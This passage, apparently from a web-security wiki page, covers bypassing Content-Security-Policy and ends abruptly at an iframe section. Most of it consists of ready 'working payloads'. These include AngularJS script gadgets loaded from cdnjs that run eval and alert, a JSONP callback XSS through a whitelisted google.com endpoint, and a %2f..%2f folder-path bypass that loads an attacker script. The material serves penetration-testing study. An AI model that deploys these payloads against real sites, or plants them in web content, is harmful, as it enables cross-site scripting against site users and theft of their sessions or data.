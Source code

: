 ```text
Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; 
object-src 'none' ; 
report-uri /Report-parsing-url;
```

Working payloads abusing cdnjs.cloudflare.com:

```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
 </div>
 
"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>

"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
```

#### JSONP

```text
Content-Security-Policy: script-src 'self' https://www.google.com;
```

In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. [jsonp](https://github.com/zigoo0/JSONBee) endpoints allow insecure callback methods which allow an attacker to perform xss.

Working payload: `"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>`

The same vulnerability will occur if the **trusted endpoint contains an Open Redirect**, because if the initial endpoint is trusted, redirects are trusted.

### Folder path bypass

If CSP policy points to a folder and you use **%2f** to encode **"/"**, it is still considered to be inside the folder. All browsers seem to agree on that.  
This leads to a possible bypass, by using "**%2f..%2f**" if server decodes it. For example, if CSP allows `http://example.com/company/` you can bypass the folder restriction and execute: `http://example.com/company%2f..%2fattacker/file.js`

Online Example:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Through iframes

```text
Content-Security-Policy: 
default-src 'self' data: *; connect-src 'self'; script-src  'self' ;
report-uri /_csp; upgrade-insecure-requests
```
